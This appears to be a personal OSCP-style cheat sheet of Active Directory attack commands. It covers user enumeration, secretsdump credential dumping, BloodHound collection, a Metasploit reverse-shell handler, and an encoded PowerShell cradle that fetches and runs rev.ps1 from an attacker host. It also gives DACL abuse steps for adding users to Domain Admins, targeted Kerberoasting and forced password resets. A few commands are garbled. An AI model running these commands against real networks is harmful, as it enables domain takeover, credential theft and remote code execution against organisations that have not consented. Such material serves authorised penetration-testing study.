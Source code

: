 user enumration

crackmapexec smb 1.1.1.1 -u "username" -p "password" --users (--groups) (--pass-pol)
impacket.getNPUsers domain.local/ -no-pass -usersfile users.txt
impacket.ownere'dit -action write -new-owner "yourusername" -target "targetusername" "domain.local"/'yourusername':'yourpassword' -dc-ip 192.168.1.1
impacket-secretsdump domain.local/username@IP




cheat sheet oscp
Bloodhound
bloodhound-python -d domain.local -u username -p password -v --zip -c All -dc domain.local -ns 192.168.1.1
sharphound

Check group members
net rpc group members "groupname" -U "domain.local/pooja.ritu%qazwsx" -S 192.168.1.1



commands
----
Host IP: 192.168.xx.xx
target IP: 192.168.xx.xx
----

Launch msfconsole
------------------

service postgresql start
sudo msfdb start
msfconsole

use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set LHOST tun0
set LPORT 4444
set ExitOnSession false
set EnableStageEncoding true
set StageEncoder x64/xor_dynamic
exploit -jz

Reverse Shell
-------------
$Command = "(New-Object System.Net.WebClient).DownloadString('http://192.168.xx.xx/rev.ps1') | IEX"
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Command)
$EncodedCommand = [Convert]::ToBase64String($Bytes)
$EncodedCommand
powershell -$ta -Nop -Window Hidden -EncodedCommand $EncodedCommand

base64

DACL Genricall
--------------

net rpc user -U ignite.local/komal%'Password@1' -S 192.168.1.8
net rpc group members "Domain Admins" -U ignite.local/komal%'Password@1' -S 192.168.1.8
bloodhound-python -u komal -p Password@1 -ns 192.168.1.8 -d ignite.local -c All

Account Manipulation DACL(Discretionary Access Control Lists )
--------------------
net rpc group addmem "Domain Admins" "komal" -U ignite.local/komal%'Password@1' -S 192.168.1.8
bloodyAD --host "192.168.1.8" -d "ignite.local" -u "komal" -p "Password@1" add groupMember "Domain Admins" "komal"
net group "domain admins" komal /add /domain
#create two user account 
net user vipin Password@1 /add /domain
net user nishant Password@1 /add /domain
#Multiple Method for Exploitation
git clone https://github.com/ShutdownRepo/targetedKerberoast.git
./targetedKerberoast.py --dc-ip '192.168.1.8' -v -d 'ignite.local' -u 'nishant' -p 'Password@1'
#1.2 Windows PowerShell Script-Powerview
#Make sur that the target account has no SPN and then Set the SPN to obtain the KerbTGS hash
Get-DomainUser 'vipin' | Select serviceprincipalname
Set-DomainObject -Identity 'vipin' -Set @{serviceprincipalname='nonexistent/hackingarticles'}
$User = Get-DomainUser 'vipin'
$User | Get-DomainSPNTicket | f1

![image](https://github.com/user-attachments/assets/cfff6843-6551-426b-8656-0d1b0da202ee)

#T1110.001 – Change Password
#2.1 Linux Net RPC – Samba
net rpc password vipin 'Password@987' -U ignite.local/nishant%'Password@1' -S 192.168.1.8
bloodyAD --host "192.168.1.8" -d "ignite.local" -u "nishant" -p "Password@1" set password "vipin" "Password@9876"
#2.3 Linux Net RPC –Rpcclient
rpcclient -U ignite.local/nishant 192.168.1.8
setuserinfo vipin 23 Ignite@987
#2.4 Windows Net Utility
net user Vipin Password@1234 /domain
#2.5 Windows PowerShell -Powerview
$SecPassword = ConvertTo-SecureString 'Password@987' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('ignite.local\vipin', $SecPassword)
#2.6 Windows PowerShell
$NewPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity 'vipin' -AccountPassword $NewPassword


Abusing AD-DACL: ForceChangePassword
--------------------------------------

#This permission provides right to change the password of a user account without knowing their current password.
#This abuse can be carried out when controlling an object that has a GenericAll, AllExtendedRights or User-Force-Change-Password over the #target user.
#Method for Exploitation – Change Password
#It can be achieved from UNIX-like system with net, a tool for the administration of samba and cifs/smb clients.
#net rpc password aarti 'Password@987' -U ignite.local/raj%'Password@1' -S 192.168.1.8
#Linux Net RPC – Rpcclient
rpcclient -U ignite.local/raj 192.168.1.8
setuserinfo aarti 23 Password@987
bloodyAD --host "192.168.1.8" -d "ignite.local" -u "raj" -p "Password@1" set password "aarti" "Password@987"
#Windows PowerShell – Powerview
powershell -ep bypass
Import-Module .\PowerView.ps1
$NewPassword = ConvertTo-SecureString 'Password1234' -AsPlainText -Force
Set-DomainUserPassword -Identity 'aarti' -AccountPassword $NewPassword

addself acl
-----------
The tester can abuse this permission by adding Anuradha User into Domain Admin group and list the domain admin members to ensure that Anuradha Users becomes Domain Admin.
net rpc group addmem "Domain Admins" anuradha -U ignite.local/anuradha%'Password@1' -S 192.168.1.7
bloodyAD --host "192.168.1.7" -d "ignite.local" -u "anuradha" -p "Password@1" add groupMember "Domain Admins" "anuradha"

The attacker can add a user/group/computer to a group. This can be achieved with with the Active Directory PowerShell module, or with Add-DomainGroupMember (PowerView module)
powershell -ep bypass
Import-Module .\PowerView.ps1
$SecPassword = ConvertTo-SecureString 'Password@1' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('ignite.local\anuradha', $SecPassword)
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'anuradha' -Credential $Cred


Active Directory

TOOLS:

adPEAS-Light.ps1 >>      https://github.com/61106960/adPEAS/blob/main/adPEAS-Light.ps1
PowerUp.ps1 >>>          https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
PowerView.ps1>>          https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
